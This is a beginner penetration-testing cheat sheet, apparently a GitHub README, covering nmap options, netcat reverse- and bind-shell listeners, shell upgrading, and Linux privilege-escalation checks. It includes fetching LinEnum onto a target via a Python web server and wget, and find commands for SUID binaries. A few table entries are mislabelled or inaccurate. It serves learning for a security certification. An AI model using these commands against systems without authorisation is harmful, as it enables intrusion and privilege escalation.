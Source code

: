 # About this Cheat Sheet. (For beginners)
I made this Cheat Sheet with no other purpose than to help myself in my own learning way. Since I'm not able to remember all these commands or practices, I've resorted to making this file so I can make faster searchs according to my needs. This is a beginner Cheat Sheet and the level corresponds approximately to the eLearnSecurity Junior Penetration Tester Certificate.

This readme was corrected to a perfect English for [@chetstink](https://twitter.com/chetstink "Twitter")
You can find me in twitter here. [@0x1_dev](https://twitter.com/0x1_dev "Twitter")


## Networking.
#### Nmap - For vulnerability scanning and network discovery.
| Usage                 |
| --------------------- |
| `nmap <options> <IP>` |


| Parameter name                             | Description                                                                       |
| -------------------------------------------| --------------------------------------------------------------------------------- |
| `-p <port-number>`                         | Scans a port or some of them.  (it scans the first 1.000 ports by default.)       |
| `-p- <startPort-number endPort-number>`   | Scans a range of ports. (By default it scans all ports.)                          |
| `-sV`                                      | Gives information about service's versions.                                       |
| `-Pn`                                      | Skip the ping test, instead scan everytarget host provided.                       |

There are a lot of more parameters, they can be found [here](https://nmap.org/book/man-briefoptions.html "Nmap parameters.").



## Reverse and Blind Shells
| Name               | Description                                                                    
| ------------------ | ------------------------------------------------------------------------- |
| Reverse Shell      |  Target connect to us. (We set up a listener before they connect to us.)  |
| Vertical PrivEsc   |  We connect to the target. (The target is the one who set up a listener.) |


#### How to use Netcat to set up a listener. (Reverse shell)
```bash
nc -lvnp <port-number>
```

| Parameters         | Description                                                                    
| ------------------ | ------------------------------------------------------------------------- |
| `-l`               |  Tells netcat that this will be a listener.                               |
| `-v`               |  Verbose output.                                                          |
| `-n`               |  Not resolve hostnames or use DNS                                         |
| `-p`               |  The port that we will sue                                                |


#### How to use Netcat to connect to a listener. (Blind shell)
```bash
nc <target-ip> <chosen-port>
```


## Upgrade shell.
After we have a shell, we should upgrade it, because netcat isn't too stable. Also we can't use arrow keys, tab key or Ctrl + C.

#### Using Python

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
[Ctrl+Z]
stty raw -echo; fg
````
#### Using Rlwrap
After we install it with `sudo apt install rlwrap` we need to use nc like this.

```bash
rlwrap nc -lvnp <port>
```


## Privilage Escalation

Understanding the two main privilage escalation variants.

| Name         | Description                                                                       |
| -------------------------- | --------------------------------------------------------------------------------- |
| Horizontal PrivEsc         |  Used for hijack another user with the same privilages. Some users even if they're not admin can have SUID files, or they are allowed to use sudo for differents files or programs.   |
| Vertical PrivEsc | You just take an administrator account. |

TODO: Make a picture with a diagram.

#### LinEnum
We can use [LinEnum](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh "LinEnum") for enumerate privilage escalation. Below we can find a table for things we should check for privilage escalation in spite of LinEnum will do the task for us.


| Things to check for   |
| -------------         |
| SUID / GUID Files     |
| Readable /etc/shadow  |
| Writable /etc/shadow  |
| Writable /etc/passwd  |
| Sudo Escape sequences |
| Cron Jobs - File permissions  |
| Cron Jobs - PATH env          |
| Passwords & Keys History File |
| Looking for SSH or Config files |
| NFS |
| Kernel exploits |
| Escaping VI editor |

There are several ways of executing the script in the target machine. However, creating a Python web server would be the second eassier one in case we can't recreate the script by coping and paste it.

1. Create a Python web server.
2. Download the script in the target machine.
3. Make the script executable.

```bash
1. python -m SimpleHTTPServer [PORT]
2. wget http://IP:PORT/FILE
3. chmod +x [FILE]
```

#### How to find SUID binaries.

```bash 
find / -perm -u=s -type f 2>/dev/null
           ---- or ----
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```


[This cheat sheet is still under construction...]
